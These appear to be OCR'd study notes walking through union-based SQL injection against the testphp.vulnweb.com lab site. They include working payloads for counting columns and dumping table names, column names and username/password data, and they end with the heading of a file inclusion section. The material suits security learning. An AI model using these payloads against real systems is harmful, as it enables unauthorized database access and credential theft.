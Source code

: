 	http://testphp.vulnweb.com/artists.php?artist=1”
	It it shows error like: that mean its vulnerable for SQLi.
•	Warning: mysql_fetch array() expects parameter 1 to be resource, boolean given in /hj/var/www/artists.php on line 64

o	Find the number of columns in the database.
	ORDER BY, increase the numbers until it shows error,
•	?artist=1 order by 1--
•	?artist=1 order by 2--
•	?artist=1 order by 3--

o	Find the table name in the columns.
	UNION SELECT
	?artist=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--
•	The statement is composed of several parts:
•	"?artist=1" - This is the original query that the web application is expected to execute. It is likely that the web application is using the "artist" parameter in a SELECT statement to retrieve data from a specific table.
•	"-1" - This value is used to replace the original query's value and trick the query to return the result of the new query. alternate (-1 | 1’ | -1’)
•	"union select" - This keyword is used to combine the results of the original query with the results of a new query.
•	"1,2" - These values are used to match the number of columns in the original query. Since the original query is likely to return a single column, these values are used to match the number of columns in the original query.
•	"group_concat(table_name)" - This function retrieves the names of all the tables in the targeted database. It replace 3rd column.
•	"from information_schema.tables" - This part of the query is used to specify the source of the data. The information_schema is a database that contains metadata about all the tables, columns, and other database objects.
•	"where table_schema=database()" - This part of the query is used to filter the results to only show tables from the current database.
•	"--" - This is used to comment out the rest of the query and prevent any additional statements from being executed.

o	Find Column name from table name (ex. users)
	?artist=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"--
•	table_name  column_name
•	information_schema.tables  information_schema.columns
•	table_schema=database()  table_name="users"

o	Find data from the found columns (ex. uname)
	artist=-1 union select 1,2,group_concat(uname) from users--
	artist=-1 union select 1,2,group_concat(uname,pass) from users--


 
*ATTACK*

File Inclusion / Path/Directory Traversal
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a “dynamic file inclusion” mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.
